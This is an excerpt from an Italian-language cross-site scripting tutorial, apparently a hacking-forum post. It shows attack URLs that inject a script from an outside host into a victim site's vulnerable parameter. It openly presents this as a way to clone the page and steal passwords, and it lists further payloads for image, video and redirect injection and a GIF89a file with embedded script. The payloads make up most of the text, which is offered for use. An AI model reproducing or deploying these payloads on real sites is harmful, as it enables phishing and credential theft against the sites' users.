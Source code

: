 Alcuni siti web hanno avuto almeno la furbizia di filtrare le richieste HTTP POST ed HTTP

GET in modo da non consentire redirect e quindi furto di Cookie.
PerÃ² se riusciamo comunque ad eseguire del codice esterno, possiamo tuttavia creare una

pagina web simile a quella originale ed usarla per appropiarci di password o altri dati

sensibili.

Esempio:
Pagina da includere: http://vuln.xssed.net/thirdparty/scripts/ckers.org.js

L'url del sito sarÃ :

http://sitovittima.it/paginavulnerabile.php?varvuln="><script

src="http://vuln.xssed.net/thirdparty/scripts/ckers.org.js"></script>

La pagina in js, se il sito non filtra, puÃ² anche essere scritta in HTML, e sarÃ  quindi
http://sitodelpoverocaio.it/paginavulnerabile.php?varvuln="><script

src="http://vuln.xssed.net/thirdparty/scripts/ckers.org.html"></script>

In questo modo all'url creato corrisponderÃ  la pagina che in js ( o HTML ) che abbiamo

incluso.






Code:
[+]Altri tipi di XSS:

CHi ha mai dett che in una xss possiamo solo inserire un testo o far comparire un alert o

giocare con i cookie..?
POssiamo fare molte altre cose come includere immagini,video,redirect e quant'altro..
Ecco qui di seguito una piccola lista di codice Javascript alternativo:

Stampare un'immagine nella pagina vulnerabile:

<IMG SRC="http://www.tuosito.com/img.png">

Visualizzare un video:

<EMBED SRC="http://www.tuosito.com/video.swf">

Redirect verso un altra pagina web\video\immagine:

<script>window.open("http://www.tuosito.com/pagina.html")</script>

*al posto di ../pagina.html possiamo mettere tutto: video.swf / img.png   / ecc..





Ora cancelliamo tutto tranne questi pochi caratteri iniziali(che servono per riconoscere ed

accettare questo file come .gif)
Ed inseriamo l'ormai famoso codice Javascript:

GIF89a<script>alert("XSS")</script>
